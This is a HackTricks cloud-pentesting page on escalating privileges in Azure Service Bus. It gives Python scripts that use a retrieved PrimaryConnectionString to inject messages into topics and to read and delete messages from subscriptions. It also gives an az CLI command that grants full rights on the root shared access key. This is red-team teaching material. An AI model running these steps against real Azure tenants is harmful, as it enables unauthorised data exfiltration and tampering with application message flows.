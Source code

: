 # Az - Service Bus Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Service Bus

For more information check:

{% content-ref url="../az-services/az-servicebus-enum.md" %}
[az-servicebus-enum.md](../az-services/az-servicebus-enum.md)
{% endcontent-ref %}


### Send Messages. Action: `Microsoft.ServiceBus/namespaces/authorizationRules/listkeys/action` OR `Microsoft.ServiceBus/namespaces/authorizationRules/regenerateKeys/action`

You can retrieve the `PrimaryConnectionString`, which acts as a credential for the Service Bus namespace. With this connection string, you can fully authenticate as the Service Bus namespace, enabling you to send messages to any queue or topic and potentially interact with the system in ways that could disrupt operations, impersonate valid users, or inject malicious data into the messaging workflow.

{% code overflow="wrap" %}
```python
#You need to install the following libraries
#pip install azure-servicebus
#pip install aiohttp
#pip install azure-identity

import asyncio
from azure.servicebus.aio import ServiceBusClient
from azure.servicebus import ServiceBusMessage

# Constants
NAMESPACE_CONNECTION_STR = "<PrimaryConnectionString>"
TOPIC_NAME = "<TOPIC_NAME>"

# Function to send a single message to a Service Bus topic
async def send_individual_message(publisher):
    # Prepare a single message with updated content
    single_message = ServiceBusMessage("Hacktricks-Training: Single Item")
    # Send the message to the topic
    await publisher.send_messages(single_message)
    print("Sent a single message containing 'Hacktricks-Training'")

# Function to send multiple messages to a Service Bus topic
async def send_multiple_messages(publisher):
    # Generate a collection of messages with updated content
    message_list = [ServiceBusMessage(f"Hacktricks-Training: Item {i+1} in list") for i in range(5)]
    # Send the entire collection of messages to the topic
    await publisher.send_messages(message_list)
    print("Sent a list of 5 messages containing 'Hacktricks-Training'")

# Function to send a grouped batch of messages to a Service Bus topic
async def send_grouped_messages(publisher):
    # Send a grouped batch of messages with updated content
    async with publisher:
        grouped_message_batch = await publisher.create_message_batch()
        for i in range(10):
            try:
                # Append a message to the batch with updated content
                grouped_message_batch.add_message(ServiceBusMessage(f"Hacktricks-Training: Item {i+1}"))
            except ValueError:
                # If batch reaches its size limit, handle by creating another batch
                break
        # Dispatch the batch of messages to the topic
        await publisher.send_messages(grouped_message_batch)
    print("Sent a batch of 10 messages containing 'Hacktricks-Training'")

# Main function to execute all tasks
async def execute():
    # Instantiate the Service Bus client with the connection string
    async with ServiceBusClient.from_connection_string(
        conn_str=NAMESPACE_CONNECTION_STR,
        logging_enable=True) as sb_client:
        # Create a topic sender for dispatching messages to the topic
        publisher = sb_client.get_topic_sender(topic_name=TOPIC_NAME)
        async with publisher:
            # Send a single message
            await send_individual_message(publisher)
            # Send multiple messages
            await send_multiple_messages(publisher)
            # Send a batch of messages
            await send_grouped_messages(publisher)

# Run the asynchronous execution
asyncio.run(execute())
print("Messages Sent")
print("----------------------------")

```
{% endcode %}

### Recieve Messages. Action: `Microsoft.ServiceBus/namespaces/authorizationRules/listkeys/action` OR `Microsoft.ServiceBus/namespaces/authorizationRules/regenerateKeys/action`
You can retrieve the PrimaryConnectionString, which serves as a credential for the Service Bus namespace. Using this connection string, you can receive messages from any queue or subscription within the namespace, allowing access to potentially sensitive or critical data, enabling data exfiltration, or interfering with message processing and application workflows.

{% code overflow="wrap" %}
```python
#You need to install the following libraries
#pip install azure-servicebus
#pip install aiohttp
#pip install azure-identity

import asyncio
from azure.servicebus.aio import ServiceBusClient

NAMESPACE_CONNECTION_STR = "<PrimaryConnectionString>"
TOPIC_NAME = "<TOPIC_NAME>"
SUBSCRIPTION_NAME = "<TOPIC_SUBSCRIPTION_NAME>" #Topic Subscription

# Function to receive and process messages from a Service Bus subscription
async def receive_and_process_messages():
    # Create a Service Bus client using the connection string
    async with ServiceBusClient.from_connection_string(
        conn_str=NAMESPACE_CONNECTION_STR,
        logging_enable=True) as servicebus_client:

        # Get the Subscription Receiver object for the specified topic and subscription
        receiver = servicebus_client.get_subscription_receiver(
            topic_name=TOPIC_NAME, 
            subscription_name=SUBSCRIPTION_NAME, 
            max_wait_time=5
        )

        async with receiver:
            # Receive messages with a defined maximum wait time and count
            received_msgs = await receiver.receive_messages(
                max_wait_time=5, 
                max_message_count=20
            )
            for msg in received_msgs:
                print("Received: " + str(msg))
                # Complete the message to remove it from the subscription
                await receiver.complete_message(msg)

# Run the asynchronous message processing function
asyncio.run(receive_and_process_messages())
print("Message Receiving Completed")
print("----------------------------")
```

### `Microsoft.ServiceBus/namespaces/authorizationRules/write` & `Microsoft.ServiceBus/namespaces/authorizationRules/write`
If you have these permissions, you can escalate privileges by reading or creating shared access keys. These keys allow full control over the Service Bus namespace, including managing queues, topics, and sending/receiving messages, potentially bypassing role-based access controls (RBAC).

```bash
az servicebus namespace authorization-rule update \
    --resource-group <MyResourceGroup> \
    --namespace-name <MyNamespace> \
    --name RootManageSharedAccessKey \
    --rights Manage Listen Send
```

## References

* https://learn.microsoft.com/en-us/azure/storage/queues/storage-powershell-how-to-use-queues
* https://learn.microsoft.com/en-us/rest/api/storageservices/queue-service-rest-api
* https://learn.microsoft.com/en-us/azure/storage/queues/queues-auth-abac-attributes
* https://learn.microsoft.com/en-us/azure/service-bus-messaging/service-bus-python-how-to-use-topics-subscriptions?tabs=passwordless
* https://learn.microsoft.com/en-us/azure/role-based-access-control/permissions/integration#microsoftservicebus

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.
</details>
{% endhint %}
